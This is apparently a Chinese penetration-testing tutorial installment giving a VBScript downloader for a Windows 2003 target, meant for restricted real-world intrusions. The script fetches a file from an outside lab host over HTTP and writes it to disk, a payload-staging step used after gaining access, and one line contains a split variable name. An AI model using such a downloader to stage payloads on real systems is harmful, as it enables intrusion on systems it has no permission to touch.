 在实战中，会碰到许多让人敬畏的环境，也许无法执行，或者无法把下载参数带入其中，故补充第七季 vbs 参数化的下载。

**靶机：**windows 2003  
![](media/130baad813eacf09b1932ecb7e5d4279.jpg)

![](media/d434ad0c2a6c5f531e908fedca5f2044.jpg)

### 附：源码如下：
```vb
strFileURL = "http://192.168.1.115/robots.txt"
strHDLocation = "c:\\test\\logo.txt"
Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
objXMLHTTP.open "GET", strFileURL, false
objXMLHTTP.send()
If objXMLHTTP.Status = 200 Then
Set objADOStream = CreateObject("ADODB.Stream")
objADOStream.Open
objADOStream.Type = 1
objADOStream.Write objXMLHTTP.ResponseBody
objADOStream.Position = 0
Set objFSO = CreateObject("Scripting.FileSystemObject")
If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocati on
Set objFSO = Nothing
objADOStream.SaveToFile strHDLocation
objADOStream.Close
Set objADOStream = Nothing
End if
Set objXMLHTTP = Nothing
```
>   Micropoor
